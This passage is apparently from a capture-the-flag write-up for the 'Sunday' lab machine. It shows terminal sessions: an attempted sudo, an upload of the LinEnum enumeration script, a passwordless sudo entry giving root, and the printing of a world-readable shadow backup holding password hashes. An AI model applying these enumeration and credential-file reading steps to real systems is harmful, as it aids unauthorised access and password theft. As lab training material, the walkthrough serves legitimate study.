 Tried to see if we could `sudo`, but didn't get very far either..

```
sunny@sunday:/export/home/sammy/Desktop$ sudo cat user.txt

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password:
Sorry, user sunny is not allowed to execute '/usr/gnu/bin/cat user.txt' as root on sunday.
```

Uploaded our Linux enum script to the system to see if it yielded any interesting
information..

```
$ scp -P 22022 ../../scripts/enum-tools/LinEnum.sh sunny@10.10.10.76:/tmp/filo.sh
Password:
LinEnum.sh                                         100%   39KB  39.2KB/s   00:01
```

And we found a troll waiting for us..

```
ESC[00;33mWe can sudo without supplying a password!ESC[00m
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```

```
sunny@sunday:/tmp$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

### OWN USER

Eventually manually crawling the filesystem starting from `/`, we came across an
interesting directory..

```
sunny@sunday:/$ ls -l backup
total 2
-r-x--x--x 1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r-- 1 root root 319 2018-04-15 20:44 shadow.backup
sunny@sunday:/$ cd backup/
sunny@sunday:/backup$ cat agent22.backup
cat: agent22.backup: Permission denied
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
